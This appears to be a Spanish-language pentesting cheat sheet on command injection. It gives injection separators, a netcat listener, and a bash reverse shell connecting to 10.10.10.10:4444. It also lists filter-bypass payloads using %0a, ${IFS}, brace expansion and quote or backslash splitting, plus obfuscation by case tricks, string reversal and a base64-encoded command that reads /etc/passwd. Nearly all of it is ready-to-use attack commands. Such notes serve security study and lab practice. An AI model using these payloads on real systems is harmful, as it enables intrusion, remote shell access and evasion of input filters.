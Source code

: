 
## 💻 COMMAND INJECTION

### 🔹 Ataque básico 🏴‍☠️
1. **Probar en la barra de búsqueda**: `resultado esperado` + `;` o `&&` o `|` + `comando`.
2. Si ejecuta comandos, ¡hay vulnerabilidad!
3. **Escucha en Kali**:
   ```bash
   nc -lvnp 4444
   ```
4. **Ejecutar una reverse shell**:
   ```bash
   bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
   ```
5. Debe conectarse, si no probar sh, perl, o cualquier otra shell

### 🔹 Bypass de caracteres bloqueados 🛡️
1. Interceptar con **BurpSuite**.
2. Enviar al **Repeater**.
3. Probar caracteres alternativos:
   - `%0a` + comando.
   - `%0a%09` *(%09 es una tabulación)*.
   - `%0a${IFS}` *(Espacio en bash)*.
   - `{ls,-la}` *(Ejecuta `ls -la` bypassando filtros)*.

📌 **Ejemplo de variables útiles**:
- `${PATH:0:1}` → `/`
- `${IFS}` → Espacio.
- `%09` → Tabulación.
- `printenv` → comando para ver todas las variables.
  - `${LS_COLORS:10:1}` →  ;
  - `${PATH:0:1}` → /
  - `%0a` → \n → new-line
  - `${IFS}` → espacio
  - `%09` → tabulacion

### 🔹 Bypass de comandos bloqueados 🚧
- **Linux/Windows**: Usar `'` o `"` → `w"h"o"am"i`
- **Linux**: Usar `\` → `w\ho\am\i`
- **Windows**: Usar `^` → `who^ami`

### 🔹 Ofuscación avanzada 🎭
1. **Windows** ignora mayúsculas/minúsculas → `WhOaMi`.
2. **Linux** permite transformar texto:
   ```bash
   (tr "[A-Z]" "[a-z]"<<<"WhOaMi")
   ```
3. **Revertir comando**:
   ```bash
   $(rev<<<'tac')
   ```
4. **Codificar en Base64**:
   ```bash
   echo -n 'cat /etc/passwd | grep 33' | base64
   ```
   ```bash
   bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
   ```
